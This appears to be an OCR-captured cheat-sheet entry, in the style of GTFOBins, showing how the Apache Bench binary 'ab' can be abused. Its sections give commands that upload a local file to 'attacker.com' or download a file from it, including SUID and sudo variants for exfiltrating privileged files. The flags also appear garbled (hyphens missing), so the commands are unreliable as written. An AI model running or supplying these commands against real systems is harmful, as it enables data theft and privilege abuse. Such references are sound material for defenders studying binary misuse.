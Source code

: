 # functions:
  ## fileupload:
     * description: Upload local file via HTTP POST request.
      * code
        URL=http://attacker.com/
        LFILE=file_to_send
        ab p $LFILE $URL
  ## filedownload:
     * description: Fetch a remote file via HTTP GET request. The response is returned as part of the verbose output of the program with some limitations on the length.
      * code
          URL=http://attacker.com/file_to_download
          ab v2 $URL
  ## suid:
     * description: Upload local file via HTTP POST request.
      * code
        URL=http://attacker.com/
        LFILE=file_to_send
        ./ab p $LFILE $URL
  sudo:
     * description: Upload local file via HTTP POST request.
      * code
        URL=http://attacker.com/
        LFILE=file_to_send
        sudo ab p $LFILE $URL
